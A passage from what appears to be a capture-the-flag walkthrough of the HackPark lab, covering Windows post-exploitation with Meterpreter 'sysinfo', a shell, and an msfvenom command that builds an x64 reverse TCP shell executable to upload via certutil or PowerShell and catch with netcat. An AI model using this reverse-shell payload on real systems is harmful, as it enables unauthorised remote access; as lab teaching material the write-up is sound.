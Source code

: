 ![image](images/hackpark-13.png)

With a stable connection established, I captured some basic system information using the `sysinfo` command to see what we are up against.

While our target is a Windows machine, I prefer to use regular Windows commands instead of Meterpreter's Linux-like commands, we can obtain a regular shell using the `shell` command.

### 3.2 Non-Metasploit:<a name="32-non-metasploit"></a>

Similar as before, we can generate a more stable shell using msfvenom. Instead of using a meterpreter as a listener however, we’ll use netcat. The msfvenom command is also slightly different and will be using the x64 architecture since we were able to enumerate that via the previous **meterpreter** `sysinfo` commmand.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=9002 -f exe > rev.exe
```

Once again, upload the reverse shell payload to the target's /Temp folder either via certutil or powershell and execute it manually.

![image](images/hackpark-14.png)
